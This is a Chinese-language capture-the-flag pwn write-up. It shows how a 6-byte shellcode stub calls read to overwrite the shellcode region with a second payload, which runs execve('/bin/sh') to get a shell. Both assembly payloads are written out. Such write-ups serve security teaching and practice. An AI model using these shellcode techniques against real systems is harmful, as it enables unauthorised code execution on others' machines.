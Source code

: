 ### 解题思路

在一开始通过mmap函数开辟了两个空间，分别存储shellcode和构造的栈


题目只能输入6个字节的shellcode，并且在处理函数里将除rsp以外的寄存器都清空了

![](./image/1.jpg)

rdi为mmap申请的伪造的栈的空间，赋值给rsp，作为一个栈空间。然后通过read(0,buf,size)函数重新传入shellcode

```
push rsp
pop rsi
mov edx,esi
syscall
```
当mmap两个空间的地址是随机的，当它们被分配得较近时，并且伪造栈的地址在shellcode低处时，通过read函数输入大量数据可以覆盖到shellcode，覆盖的内容如下：

```
shellcode2 = asm('''
mov eax, 0x3b
mov rdi, rsi
xor rsi, rsi
xor rdx, rdx
syscall
''',arch='amd64')
shellcode2 = "/bin/sh\0".ljust(0xb36,'\0') + shellcode2
```
使用execve系统调用，rdi保存的是rsp（伪造栈的地址），所以可以execve("/bin/sh")，获得shell。

### 参考链接

http://www.pwndog.top/2018/08/23/%E4%B8%80%E4%B8%AA%E6%9C%89%E8%B6%A3%E7%9A%84PWN-%E9%93%81%E4%B8%89%E4%BA%91%E8%B4%B5%E7%AC%AC%E4%B8%89%E9%A2%98/